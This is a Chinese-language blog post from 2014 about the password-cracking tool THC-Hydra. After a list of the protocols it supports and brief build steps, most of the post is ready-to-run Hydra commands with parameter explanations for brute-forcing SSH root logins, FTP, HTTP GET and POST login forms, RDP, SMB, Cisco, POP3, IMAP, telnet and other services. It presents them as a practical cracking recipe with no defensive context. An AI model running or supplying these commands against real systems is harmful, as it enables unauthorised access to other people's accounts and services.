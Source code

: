 ```yaml
---
layout: post_item
status: publish
published: true
title: hydra，对会话认证的攻击
author: jsongo
wordpress_id: 234
wordpress_url: http://jsongo.com/?p=234
date: '2014-02-18 02:15:34 +0800'
date_gmt: '2014-02-17 18:15:34 +0800'
categories: [security]
tags: [hack]
comments: []
---
```

官网：https://www.thc.org/thc-hydra/

它支持破解很多种协议，常见的有HTTP-FORM-GET，HTTP-FORM-POST，SSH等，另外还有（来自官网）：


Asterisk，AFP，思科，CVS，Firebird，FTP，HTTP-GET，HTTP头，HTTP代理，HTTPS-FORM-GET，HTTPS-FORM POST，IMAP，HTTP代理，HTTPS的GET，HTTPS头，ICQ，IRC，LDAP，MS-SQL，MYSQL，NCP，NNTP，Oracle的监听，Oracle的SID，oracle数据库，PCAnywhere，PCNFS，POP3，POSTGRES，RDP，REXEC，Rlogin，RSH，SAP/R3，SIP，SMB，SMTP，SMTP枚举，SNMP，SOCKS5，SSH（v1和v2），Subversion，TeamSpeak（TS2），telnet，VMware的认证，VNC和XMPP

(Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, S7-300, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP)

可谓无所不能。不过使用的时候，一般都需要一个字典文件。只要你的字典够强大，网络任你行。

在mac上实验。下载源码包，需要手动编译。安装前先装好pcre和libssh两个库。

然后就是./configure &amp;&amp; make &amp;&amp; make install了

破解ssh登录认证：

{% highlight bash %}

hydra jsongo.com ssh&nbsp;&nbsp;-l root -P tmp.txt

{% endhighlight %}
破解post用户名密码：

破解ftp：

{% highlight bash %}
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV<br />
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV<br />
{% endhighlight %}
get方式提交，破解web登录：

{% highlight bash %}
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/<br />
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php<br />
{% endhighlight %}
post方式提交，破解web登录：<br />
该软件的强大之处就在于支持多种协议的破解，同样也支持对于web用户界面的登录破解，get方式提交的表单比较简单，这里通过post方式提交密码破解提供思路。该工具有一个不好的地方就是，如果目标网站登录时候需要验证码就无法破解了。带参数破解如下：

{% highlight html %}

<form action="index.php" method="POST">
<input type="text" name="name" /><BR><br><br />
<input type="password" name="pwd" /><br><br><br />
<input type="submit" name="sub" value="提交"><br />
</form><br />
{% endhighlight %}

假设有以上一个密码登录表单，我们执行命令：

{% highlight bash %}
# hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form &ldquo;index.php:name=^USER^&amp;pwd=^PASS^:<title>invalido</title>&rdquo;<br />
{% endhighlight %}

说明：破解的用户名是admin，密码字典是pass.lst，破解结果保存在ok.lst，-t 是同时线程数为1，-f 是当破解了一个密码就停止，ip 是本地，就是目标ip，http-post-form表示破解是采用http 的post 方式提交的表单密码破解。

后面参数是网页中对应的表单字段的name 属性，后面<title>中的内容是表示错误猜解的返回信息提示，可以自定义。

{% highlight bash %}
破解https：
# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
破解teamspeak：
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
破解cisco：
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
破解smb：
# hydra -l administrator -P pass.txt 10.36.16.18 smb
破解pop3：
# hydra -l muts -P pass.txt my.pop3.mail pop3
破解rdp：
# hydra ip rdp -l administrator -P pass.txt -V
破解http-proxy：
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
破解imap：
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
破解telnet
# hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V
{% endhighlight %}
最后的示例来自：http://www.cnblogs.com/patf/p/3142564.html

